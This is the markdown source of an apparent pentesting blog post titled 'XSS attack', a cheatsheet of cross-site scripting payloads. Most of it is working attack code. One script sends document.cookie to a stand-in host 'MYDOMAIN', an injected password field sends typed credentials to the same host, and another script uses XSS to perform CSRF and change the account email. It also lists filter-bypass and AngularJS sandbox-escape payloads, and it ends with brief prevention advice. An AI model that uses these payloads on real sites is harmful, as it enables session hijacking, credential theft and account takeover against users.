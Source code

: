 ```yaml
---
title: "XSS attack"
subtitle: ""
draft: false
author: "Hato0"
description: "XSS cheatsheet"

tags: ["web", "penetest", "xss"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-site scripting

Cross-site scripting is used to inject malicious javascript code to user browser. 

This attack can lead to a total control of the application in use. More details and specific stuff can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

## Basics


- Exploiting cross-site scripting to steal cookies
	This part represent the principal use of XSS. Web apps usually use cookies to save and remember sessions. 
    
    In that way, this attack get the cookie in question and send it back to your own domain so you can easily capture it. 
	
	There is comon security system used to avoid this attack:
	-   The victim might not be logged in.
	-   Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
	-   Sessions might be locked to additional factors like the user's IP address.
	-   The session might time out before you're able to hijack it.
	
	Here is an example of that type of XSS:
        {{< highlight javascript "lineNos=false" >}}<script> 
            fetch('https://MYDOMAIN', {  method: 'POST',  mode: 'no-cors',  body:document.cookie  });  
        </script>
        {{< /highlight >}}


- Exploiting cross-site scripting to capture passwords
	
	This technique can be use because of stupid password managers and auto-fill option. Basicly the only thing you have to do is to inject an option in the input label to read data when they are enter. Here is an example : 
	
    {{< highlight html "lineNos=false" >}}
    <input name=username id=username>  
    <input type=password name=password onchange="
    if(this.value.length)fetch('https://MYDOMAIN',{  
    method:'POST',  
    mode: 'no-cors',  
    body:username.value+':'+this.value  
    });">
    {{< /highlight >}}


- Exploiting XSS to perform CSRF

	XSS can also be used to perform CSRF (more details in the next section). Here is an example payload working with token protection enable: 
	
	{{< highlight javascript "lineNos=false" >}}
	<script>  
	var req = new XMLHttpRequest();  
	req.onload = handleResponse;  
	req.open('get','/my-account',true);  
	req.send();  
	function handleResponse() {  
	 var token = this.responseText.match(/name="csrf" value="(\\w+)"/)\[1\];  
	 var changeReq = new XMLHttpRequest();  
	 changeReq.open('post', '/my-account/change-email', true);  
	 changeReq.send('csrf='+token+'&email=test@test.com')  
	};  
	</script>
	{{< /highlight >}}


## Reflected XSS 

Reflected XSS is the simplest variety of cross-site scripting. The application receive data in an HTTP request and includes that data within the immediate response in an unsafe way. Nothing is stored in the webapp and the trigger only works when the user click on the link or whatever with this particular payload include. Here are some examples : 

- HTML context with nothing encoded

	{{< highlight javascript "lineNos=false" >}}
	<script>alert(1)</script>
	{{< /highlight >}}
 
 
- HTML context with most tags and attributes blocked

	{{< highlight html "lineNos=false" >}}
	<iframe src="https://WEBSITE/?search="><body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
	{{< /highlight >}}


- HTML context with all tags blocked except custom ones

	{{< highlight javascript "lineNos=false" >}}
	<script>  
	location = 'https://WEBSITE/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';  
	</script>
	{{< /highlight >}}


- Event handlers and href attributes blocked

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
	{{< /highlight >}}

- Some SVG markup allowed

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search="><svg><animatetransform onbegin=alert(1)>
	{{< /highlight >}}


- Reflected XSS with AngularJS sandbox escape without strings

	{{< highlight javascript "lineNos=false" >}}
	https://your-lab-id.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d\[\].join;\[1\]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
	{{< /highlight >}}
	
	
- Reflected XSS with AngularJS sandbox escape and CSP

	{{< highlight html "lineNos=false" >}}
	<script>  
	location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';  
	</script>
	{{< /highlight >}}
	

## Stored XSS 
Stored XSS is an injection in the actual page by any way (message, template injection, input, ...). Here are some examples: 

- Stored XSS into anchor href attribute with double quotes HTML-encoded

	{{< highlight javascript "lineNos=false" >}}
	javascript:alert('XSS')
	{{< /highlight >}}
	 
	 
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

	{{< highlight javascript "lineNos=false" >}}
	&apos;-alert(1)-&apos;
	{{< /highlight >}}
	

## DOM XSS 

DOM Based XSS is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

As the vulnaribility is app specific, there will be no example and you will have to use your brain. 


## Escape CSP

CSP or 'Content Security Policy ' is a protection to XSS, clickjacking, code injection and more. CSP can be found on the server answer. You can use a [checker](https://csp-evaluator.withgoogle.com/) to dig in what you have in front of you. As the topic is large again here is a [link](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to understand what the checker gave you 


## How to prevent them 

-   **Filter input on arrival.** At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
-   **Encode data on output.** At the point where user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. Depending on the output context, this might require applying combinations of HTML, URL, JavaScript, and CSS encoding.
-   **Use appropriate response headers.** To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.
-   **Content Security Policy.** As a last line of defense, you can use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur.